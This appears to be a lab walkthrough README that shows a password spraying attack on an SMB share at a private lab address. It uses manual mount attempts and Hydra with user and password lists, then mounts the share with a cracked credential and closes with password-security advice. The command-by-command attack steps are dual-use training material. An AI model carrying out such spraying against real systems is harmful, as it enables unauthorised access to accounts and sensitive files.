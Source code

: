 # Performing Password Spraying Attack

This project focuses on managing password security by demonstrating a password spraying attack and emphasizing best practices for securing network shares. The goal is to explore the vulnerabilities of weak or common passwords in a networked environment and to highlight the importance of using strong, complex passwords to safeguard sensitive resources. Through the use of tools like Hydra and basic Linux commands, this project aims to provide a hands-on approach to understanding password-related security risks and reinforcing effective password management strategies.


---
## Step 1: Create a Mount Point  
To attach a network share, start by creating a mount point:  

```bash
mkdir /mnt/HR
```

A mount point is necessary for accessing a network share once valid credentials are discovered.  

---

## Step 2: Check for Available Users  
View the list of users from the MS10 system (IP: 10.1.16.2):  

```bash
cat users.txt
```

> **Note:** If `users.txt` is not accessible, close and reopen the terminal. Ensure the prompt is `root@kali` and type:  
> ```bash
> ls -a
> ```  
> The file should then appear in the directory.

---

## Step 3: Attempt Password Submissions  
### Discovered Passwords:  
```
abc123  
123456  
Pa$$w0rd  
```

### First Attempt:  
Try mounting the network share using the following command:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `abc123`  

Result: **Mount error** – This password is incorrect.

### Second Attempt:  
Try the second password:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=pat
```

When prompted for a password, enter: `123456`  

Result: **Mount error** – This password is also incorrect.  

---

## Step 4: Automate with Hydra  
Manually testing each password is time-consuming, so let's automate the process. First, create a file containing the discovered passwords:  

```bash
echo abc123 > pass.txt  
echo 123456 >> pass.txt  
echo 'Pa$$w0rd' >> pass.txt  
cat pass.txt  
```

> **Important:** Ensure the passwords are spelled correctly, especially `Pa$$w0rd`. Use single quotes to avoid issues.  

### Understanding the Commands:  
- `>` creates a new file and writes to it.  
- `>>` appends to the file without overwriting its contents.  

---

## Step 5: Launch Hydra for Password Spraying  
Use the Hydra wizard to perform a password spraying attack:  

```bash
hydra-wizard
```

### Hydra Wizard Responses:  

| **Prompt**          | **Response**   |
|----------------------|----------------|
| Service              | smb            |
| Target               | 10.1.16.2      |
| Username             | users.txt      |
| Password             | pass.txt       |
| Test                 | (Press Enter)  |
| Port                 | (Press Enter)  |
| Module options       | (Press Enter)  |
| Run command          | Y              |

Hydra will now attempt each password for every user listed in `users.txt` against the MS10 share.  

---

## Step 6: Verify Credentials  
Once Hydra identifies valid credentials, mount the share to confirm:  

```bash
mount //10.1.16.2/HR /mnt/HR -o username=jaime
```

Enter the password: `Pa$$w0rd`  

If no error appears, the share has been successfully mounted.  

View the share’s contents:  

```bash
ls /mnt/HR
```

To unmount the share, use:  
```bash
umount /mnt/HR
```

---

## Conclusion: Best Practices for Password Security  
This project highlights the importance of good password management. To improve security:  

- Implement **password complexity** and **length requirements**.  
- Train users to avoid using simple passwords like `123456`.  
- Discourage writing down passwords. If necessary, securely destroy the paper afterward.  
- Use automated tools like Hydra responsibly to test and strengthen your security policies.

---